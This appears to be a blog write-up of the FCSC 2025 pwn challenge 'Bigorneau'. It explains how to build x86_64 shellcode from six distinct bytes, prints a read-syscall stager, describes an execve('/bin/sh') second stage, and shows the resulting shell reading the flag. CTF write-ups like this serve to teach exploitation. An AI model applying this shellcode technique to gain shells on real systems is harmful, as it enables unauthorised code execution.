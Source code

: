 ```yaml
---
author: micronoyau
layout: post
date: 2025-04-27 22:00:00 +0200
tags: pwn fcsc shellcode
title: "Bigorneau"
excerpt_separator: <!--more-->
---
```


This challenge is the 3rd most solved pwn challenge at the 2025 edition of the FCSC. We are provided a few resources:
 - an address and a port to connect to
 - the binary (`x86_64` architecture)
 - the source code of the binary
 - a python script that is run on the server

## First steps

### Playing with the service

```
➜  03-bigorneau nc chal.fcsc.fr 2102
Enter your shellcode (hex, at most 128 bytes):
1203980aaaaaa
Please check your inputs.
^C
```

### Analyzing the source code

#### `bigorneau.py`

This script:
 - converts the hex input as bytes
 - checks that there are at most 6 different bytes and less that 0x80 bytes in total
 - inserts some instructions to clear the registers beforehand
 - writes the resulting bytes to a temporary file
 - calls the program with the path to this temporary file as its first argument

#### `bigorneau.c`

The program simply reads the shellcode found at the path of the first argument on the stack, and jumps to it. Since the program is compiled with no NX bit protection on stack, this is fine.

## Solving

### Strategy

In summary, we need to find an `x86_64` shellcode with at most 6 different bytes.

In order to do this, I proceeded in two steps:
 - a first stage shellcode simply reads from user input on the stack (`read(<stack>, 0, <size>)`)
 - the second stage shellcode (a simple `execve("/bin/sh", NULL, NULL)` padded with NOPS at the beginning) can then be sent to overwrite the current instructions

 The real challenge here is to write the first stage shellcode. Hopefully for us, all registers are cleared beforehand (thanks to the script), so `rdi` (the input fd) and `rax` (the syscall number) are already zero (`stdin` fd and `read` syscall number).
 
 Now, let's see what is left to do:
 - somehow move `rsp` to `rsi` -> push/pop instructions are only 1 byte long
 - set `rdx` to a large enough value to allow for the shellcode -> `dl` is enough
 - do a syscall -> 2 bytes

Here is the resulting shellcode:

```
0x00000000      54             push rsp
0x00000001      5e             pop rsi
0x00000002      b2f0           mov dl, 0xf0
0x00000004      0f05           syscall
```

## Result

```
➜  03-bigorneau python expl.py 
[+] Opening connection to chal.fcsc.fr on port 2102: Done
[*] Switching to interactive mode
Enter your shellcode (hex, at most 128 bytes):
$ ls
bigorneau
bigorneau.py
flag.txt
$ cat flag.txt
FCSC{619c629f9dd846fe8f1db9f23693707b7a334ab7da1507dc904b9d5c3fc2a15c}
$ 
```

For full code, please visit https://github.com/micronoyau/FCSC-2025/tree/master
